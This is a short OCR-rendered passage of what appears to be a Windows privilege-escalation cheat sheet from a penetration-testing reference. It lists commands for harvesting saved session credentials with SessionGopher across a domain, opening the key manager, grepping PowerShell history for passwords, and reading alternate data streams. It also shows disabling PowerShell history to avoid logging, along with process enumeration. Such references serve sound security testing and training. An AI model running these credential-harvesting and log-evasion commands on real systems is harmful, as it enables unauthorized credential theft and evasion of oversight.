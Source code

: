 ```
https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```

### Passwords stored in Key Manager

![⚠](https://cdn.jsdelivr.net/gh/jdecked/twemoji@15.0.3/assets/svg/26a0.svg ":warning:") This software will display its output in a GUI

```
rundll32 keymgr,KRShowKeyMgr
```

### Powershell History

Disable Powershell history: `Set-PSReadlineOption -HistorySaveStyle SaveNothing`.

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw
```

### Powershell Transcript

```
C:\Users\<USERNAME>\Documents\PowerShell_transcript.<HOSTNAME>.<RANDOM>.<TIMESTAMP>.txt
C:\Transcripts\<DATE>\PowerShell_transcript.<HOSTNAME>.<RANDOM>.<TIMESTAMP>.txt
```

### Password in Alternate Data Stream

```
PS > Get-Item -path flag.txt -Stream *
PS > Get-Content -path flag.txt -Stream Flag
```

## EoP - Processes Enumeration and Tasks

- What processes are running?
    

- ```
    tasklist /v
    net start
    sc query
    Get-Service
    Get-Process
    Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
    ```
    